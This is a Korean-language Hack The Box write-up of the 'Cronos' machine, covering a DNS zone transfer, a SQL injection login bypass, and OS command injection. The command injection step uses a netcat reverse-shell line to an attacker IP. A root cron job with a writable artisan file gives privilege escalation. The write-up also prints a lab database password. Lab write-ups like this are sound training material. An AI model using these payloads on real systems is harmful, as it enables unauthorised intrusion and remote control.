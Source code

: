 ```yaml
---
layout: post
title: Hack The Box - Cronos
subtitle: Hack the box Cronos machine [Medium]
category: writeup
thumbnail-img: /assets/img/writeup/HTB/cronos/pwned.png
tags:
  [
    writeup,
    hackthebox,
    cronos,
    zonetransfer,
    dns,
    dig,
    nslookup,
    axfr,
    sqlinjection,
    oscommandinjection,
    commandinjection,
  ]
author: Hong
---
```


# nmap

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

웹서버는 접속해봐도 아파치의 디폴트 페이지만 표시된다.

아무래도 DNS를 살펴봐야 하는 것 같다.

# DNS

우선 nslookup으로 도메인을 확인한다.

`nslookup <host> <dns server>`

```
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

네임서버의 주소가 나온다.

/etc/hosts 파일에 cronos.htb와 ns1.cronos.htb.를 추가한다.

다음 새로운 디렉토리나 서브도메인을 찾기 위해서 gobuster로 꽤 많은 워드리스트를 돌려봤지만,
아무 것도 걸리는 게 없었다.

이럴 때 시도해 볼 수 있는 것이 DNS 서버를 알기 때문에 (이번 머신 스스로가 dns 서버) zonetransfer를 해볼 수 있다.

Zone transfer는 네트워크가 방대해서 DNS 서버가 여러개 있을 경우, 서로 동기화 하기 위해 DNS 데이터를 한 서버에서 다른 서버로 옮기는 것을 말한다.

zone transfer를 실행하려면 설정에서 enable로 해야한다.

dig의 axfr 커맨드를 사용한다.

```
dig axfr cronos.htb @ns1.cronos.htb.

; <<>> DiG 9.20.4-4-Debian <<>> axfr cronos.htb @ns1.cronos.htb.
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 316 msec
;; SERVER: 10.10.10.13#53(ns1.cronos.htb.) (TCP)
;; WHEN: Sun Apr 20 02:43:30 EDT 2025
;; XFR size: 7 records (messages 1, bytes 203)
```

그럼 위와 같이 gobuster로는 찾지 못했던 서브도메인을 찾을 수 있다.

admin.cronos.htb도 /etc/hosts 파일에 추가.

웹서버에 접속하면 새로운 로그인 페이지를 볼 수 있다.

![login](/assets/img/writeup/HTB/cronos/login.png)

# SQL injection

로그인 페이지는 간단하게 sqli로 admin 접속 할 수 있다.

`' or 1=1 ; -- #` 혹은 `admin' -- -`로 로그인한다.

로그인 하면 Net Tool v0.1이라는 툴이 나오는데 자주 보는 OS 커맨드 인젝션이다.

![oscommand](/assets/img/writeup/HTB/cronos/oscommand.png)

칼리에서 리스닝 포트를 열고 툴에 페이로드를 입력한다.

`busybox nc 10.10.14.5 80 -e /bin/bash`

로그인 하면 유저 홈 디렉토리에 플래그가 있다.

# 권한상승

```
cat config.php
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

데이터베이스의 크레덴셜이 있다.

하지만 데이터베이스에 딱히 유용한 정보는 없었다. `nysql -u admin -p`

cron잡을 살펴보던 중 1분마다 실행되는 잡을 발견했다.

`* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1`

artisan의 파일 권한을 확인해보니 www-data에게 쓰기 권한이 있었다.

php의 리버스쉘 페이로드를 만든 후 파일을 바꿔치기 하면 잠시 후 root로 접속된다.

# 참고자료

- https://www.acunetix.com/blog/articles/dns-zone-transfers-axfr/
